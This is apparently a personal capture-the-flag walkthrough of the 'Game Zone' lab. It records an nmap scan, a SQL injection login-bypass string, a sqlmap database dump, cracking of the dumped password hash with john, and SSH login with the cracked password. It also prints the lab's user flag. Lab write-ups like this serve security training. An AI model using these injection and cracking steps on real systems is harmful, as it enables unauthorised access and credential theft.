# Game Zone Notes

# My IP = 10.8.19.163

# Target IP = 10.10.99.155

# NMAP Scan:

> "nmap -Pn -sC -sV -A -T5 --script vuln 10.10.99.155 | tee game.nmap"

Results:

	22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
	80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))

1. What is the name of the large cartoon avatar holding a sniper on the forum?

> Agent 47

# Next Section

1. SQL injections.

> Gained unauthenticated access with:

> ' or 1=1; -- -'

Testing search bar with SQLMAP:

> sqlmap -u "http://10.10.99.155/?x=0&y=0#"

Not injectable.

Trying - http://10.10.99.155/portal.php?searchitem=

NO luck.

Tried login screen for SQL.

> sqlmap -r sql.txt --dbms=mysql --dump

+------------------------------------------------------------------+----------+
| pwd                                                              | username |
+------------------------------------------------------------------+----------+
| ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14 | agent47  |

Saved hash to hash.txt.

> john hash.txt -wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA256

> Password: videogamer124

Trying to SSH into device with:

> Username: agent47 Password: videogamer124

Success logged in as a user account.

> whoami - agent47

> ps:

> PID  TTY       TIME CMD
> 1349 pts/0    00:00:00 bash
> 1373 pts/0    00:00:00 ps
___

2. Whats the user flag?

> cat user.txt
> 649ac17b1480ac13ef1e4fa579dac95c
___

1. Use ss to check whats running ssh wise on the machine.

> ss -tulpn

>  